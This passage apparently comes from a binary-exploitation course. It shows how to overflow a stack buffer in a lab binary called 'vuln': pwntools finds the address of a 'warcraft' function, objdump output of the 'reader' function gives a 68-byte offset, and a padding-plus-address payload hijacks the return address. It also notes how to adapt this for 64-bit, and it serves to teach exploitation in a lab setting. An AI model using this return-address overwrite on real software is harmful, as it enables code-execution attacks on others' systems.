 - the offset of the return address inside our buffer
- the address of the `warcraft` function inside the binary.

For all our exploits we'll be using the `exploit.py` script, which is also available in the [00-demo](activities/00-demo) folder.
Notice that `pwntools` provides a functionality similar to `nm`, by which we can obtain the addresses of various symbols in the binary (as long as it hasn't been stripped):

```python
e = ELF(filename)
warcraft_address = e.symbols[b"warcraft"]
```

As of now, requirement #2 mentioned above is complete.
In order to also complete the first requirement, we'll use `objdump` and check the `reader` function:

```console
$ objdump -M intel -d vuln
08048529 <reader>:
 8048529:       55                      push   ebp
 804852a:       89 e5                   mov    ebp,esp
 804852c:       83 ec 40                sub    esp,0x40
 [...]
 804853c:       a1 40 a0 04 08          mov    eax,ds:0x804a040
 8048541:       50                      push   eax
 8048542:       68 80 00 00 00          push   0x80
 8048547:       8d 45 c0                lea    eax,[ebp-0x40]
 804854a:       50                      push   eax
 804854b:       e8 10 fe ff ff          call   8048360 <fgets@plt>
```

Our vulnerable buffer is the first parameter of `fgets`, which is at offset `ebp - 0x40` i.e. `ebp - 64`.
Which means that the offset of the return address is `64 + 4 = 68` bytes into this buffer (remember how a stack frame looks like).

So, in order to call the `warcraft` function, we'll give our binary a payload made up of a padding of 68 bytes, followed by the address of `warcraft`, written in little endian representation, which can be written like this:

```python
offset = 0x40 + 4
payload = offset * b"A" + pack(warcraft_address)
```

Now our exploit is done.
In order to perform this exploit on `vuln64`, simply run `objdump` on this binary and remember that the length of a pointer on a 64-bit architecture is 8 bytes, which means that the offset of the return address is going to be `rbp + 8`.

One thing to keep in mind is that you are by no means required to use addresses that point to the beginning of functions in your payloads.
You can use any valid address from the `.text` section and the exploit should work just fine in executing code from the address you provide it.

Now on to our next scenario: what if the function we're calling requires a parameter?
